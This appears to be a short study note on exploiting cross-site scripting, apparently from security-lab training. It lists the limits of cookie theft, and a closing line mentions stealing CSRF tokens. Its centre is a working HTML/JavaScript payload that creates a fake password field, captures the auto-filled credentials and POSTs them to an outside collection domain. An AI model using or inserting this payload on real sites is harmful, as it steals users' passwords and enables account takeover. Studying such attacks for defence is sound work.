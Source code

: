 ## Exploiting cross-site scripting to steal cookies
Limitations:
* The victim might not be logged in.
*  Many applications hide their cookies from JavaScript using the `HttpOnly` flag.
* Sessions might be locked to additional factors like the user's IP address.
* The session might time out before you're able to hijack it.

## Exploiting cross-site scripting to capture passwords
These days, many users have password managers that auto-fill their passwords. You can take advantage of this by creating a password input, reading out the auto-filled password, and sending it to your own domain.

```html
<input type="text" name="username">
<input type="password" name="password" onchange="dothis()">

<script>
    function dothis() {
    var username = document.getElementsByName('username')[0].value
    var password = document.getElementsByName('password')[0].value

    var data = new FormData();
    data.append('comment', `${username}:${password}`);

    fetch('https://ki68cr7k5a185wzf6dcqrlo63x9oxold.oastify.com', {
        method: 'POST',
        mode: 'no-cors',
        body: data
    });
    };
</script>
```

## Exploiting cross-site scripting to bypass [[CSRF]] protections
XSS is used to steal CSRF token, then you can exploit CSRF.